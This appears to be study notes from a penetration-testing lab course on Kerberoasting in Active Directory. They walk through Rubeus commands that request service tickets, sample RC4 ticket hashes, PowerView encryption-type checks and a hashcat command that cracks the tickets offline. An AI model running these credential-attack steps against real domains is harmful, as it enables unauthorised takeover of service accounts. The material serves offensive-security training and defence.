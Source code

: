 ### Rubeus

**Using the /stats Flag**

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /stats
```

**Using the /nowrap Flag**

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

> request tickets for accounts with admincount attribute set to 1. `/nowrap` flag so that the hash can be more easily copied down for offline cracking using Hashcat

> RC4 is [weaker](https://www.stigviewer.com/stig/windows\_10/2017-04-28/finding/V-63795) and easier to crack offline using tools such as Hashcat than other encryption algorithms such as AES-128 and AES-256

`$krb5tgs$23$*` -> RC4 (type 23)

`$krb5tgs$18$*` -> AES-256 (type 18)

Let's start by creating an SPN account named `testspn` and using Rubeus to Kerberoast this specific user to test this out. As we can see, we received the TGS ticket RC4 (type 23) encrypted.

<pre class="language-powershell-session"><code class="lang-powershell-session">PS C:\htb> .\Rubeus.exe kerberoast /user:testspn /nowrap
<strong>
</strong><strong>[*] Hash                   : $krb5tgs$23$*testspn$INLANEFREIGHT.LOCAL$testspn/kerberoast.inlanefreight.local@INLANEFREIGHT.LOCAL*
</strong></code></pre>

`msDS-SupportedEncryptionTypes` attribute is set to `0`

```powershell-session
PS C:\htb> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes

serviceprincipalname                   msds-supportedencryptiontypes samaccountname
--------------------                   ----------------------------- --------------
testspn/kerberoast.inlanefreight.local                            0 testspn
```

**Cracking the Ticket with Hashcat & rockyou.txt**

```shell-session
carbonlky@htb[/htb]$ hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt 
```

**Checking Supported Encryption Types**

```powershell-session
PS C:\htb> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes

serviceprincipalname                   msds-supportedencryptiontypes samaccountname
--------------------                   ----------------------------- --------------
testspn/kerberoast.inlanefreight.local                            24 testspn
```
